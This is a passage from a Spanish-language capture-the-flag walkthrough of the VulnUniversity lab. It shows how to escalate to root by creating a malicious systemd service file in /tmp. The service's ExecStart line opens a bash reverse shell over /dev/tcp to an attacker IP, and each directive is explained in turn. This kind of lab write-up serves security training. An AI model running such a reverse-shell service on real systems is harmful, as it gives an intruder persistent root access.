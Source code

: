 ![](/assets/images/VulnUniversity/image055.png)

En esta ocasion escogeremos el directorio `tmp` para crear nuestro archivo. 
Ahora crearemos las secciones y directivas que va contener nuestro archivo de servicio.

![](/assets/images/VulnUniversity/image057.png)

- En la seccion `[Unit]`, se especifica una descripcion para el servicio. En este caso, la descripcion es "root", que especifica el proposito o la funcion del servicio.
- En la seccion `[Service]`, se establecen las configuraciones relacionadas con el servicio mismo. Aqui estan las directivas utilizadas:
1. `Type=simple`: Esta directiva especifica que el servicio es un proceso simple y que no utiliza caracteristicas especiales de systemd.
2. `User=root`: Esta directiva indica que el servicio se ejecutara con el usuario "root".
3. `ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.8.123.194/1700 0>&1'`: Esta directiva establece el comando de inicio del servicio. En este caso, el comando nos generara una conexion reverse shell hacia nuestra maquina siendo el usuario root.
- La seccipn `[Install]` define como se debe activar el servicio durante el inicio del sistema. En este caso, se especifica que el servicio sera activado en el objetivo "multi-user.target", que es el objetivo predeterminado para sistemas multiusuario.
